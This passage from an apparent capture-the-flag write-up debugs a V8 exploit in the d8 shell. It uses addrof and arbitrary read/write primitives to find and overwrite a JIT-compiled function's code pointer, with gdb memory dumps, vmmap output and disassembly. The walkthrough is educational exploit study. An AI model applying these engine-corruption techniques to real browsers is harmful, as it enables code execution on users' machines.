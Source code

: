 Over here we start to encounter some problems, even though we are sure the addresses and arb read/write functions have been set up correctly. The most straightforward way is hence to hack it open in a debugger and understand what is going on. Following the steps in the same article we look at how the `r-x` portion of the JIT-compiled function is being exploited:

```js
// ...
console.log(addrof(f).toString(16));
%DebugPrint(f);

let code = aar(addrof(f) + 0x18n) & 0xffffffffn;
console.log("code = " + code.toString(16));
let inst = aar(code + 0xcn) + 0x60n;
aaw(code + 0xcn, inst);
console.log("inst = " + inst.toString(16));
%SystemBreak();
```

```
$ gdb d8
gef➤  r --allow-natives-syntax solve.js
30f00d
0x32900030f00d <JSFunction f (sfi = 0x3290001958d1)>
code = 1995a5
inst = -3fff70ffffffaa4c
gef➤  x/12wx 0x32900030f00d-1
0x32900030f00c: 0x00182b3d      0x00002259      0x00002259      0x001958d1
0x32900030f01c: 0x00195f21      0x00195e61      0x001995a5      0x000029f9
0x32900030f02c: 0x00000002      0x0018306d      0x00000000      0x000023fd
gef➤  x/12wx 0x3290001995a5-1
0x3290001995a4: 0x00002a71      0x00199501      0xc0008ec1      0x000055b4
0x3290001995b4: 0xc0008f00      0x00005554      0xffff001d      0x00000004
0x3290001995c4: 0x00002231      0x0000004c      0x00199665      0x00000002
gef➤  x/gx 0x3290001995a5-1+0xc
0x3290001995b0: 0xc0008f00000055b4
```

Very clearly this is not the address that we want. Taking a quick look at `vmmap` we can find the actual offset to jump to:

```
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x00328800000000 0x00329000000000 0x00000000000000 ---
0x00329000000000 0x0032900000b000 0x00000000000000 r--
...
0x005554c0004000 0x005554c003f000 0x00000000000000 r-x
0x005554c003f000 0x005554dfe80000 0x00000000000000 ---
0x005554dfe80000 0x005554dfffe000 0x00000000f11000 r-x /[REDACTED]/d8
...
gef➤  x/gx 0x3290001995a5-1+0x10
0x3290001995b4: 0x00005554c0008f00
gef➤  x/30i 0x00005554c0008f00
   0x5554c0008f00:      mov    ebx,DWORD PTR [rcx-0x30]
   0x5554c0008f03:      add    rbx,r14
   0x5554c0008f06:      test   BYTE PTR [rbx+0x1b],0x1
   0x5554c0008f0a:      je     0x5554c0008f11
   0x5554c0008f0c:      jmp    0x5554dfe8d1c0
   0x5554c0008f11:      push   rbp
   0x5554c0008f12:      mov    rbp,rsp
   0x5554c0008f15:      push   rsi
   0x5554c0008f16:      push   rdi
   0x5554c0008f17:      push   rax
   0x5554c0008f18:      sub    rsp,0x8
   0x5554c0008f1c:      cmp    rsp,QWORD PTR [r13+0x20]
```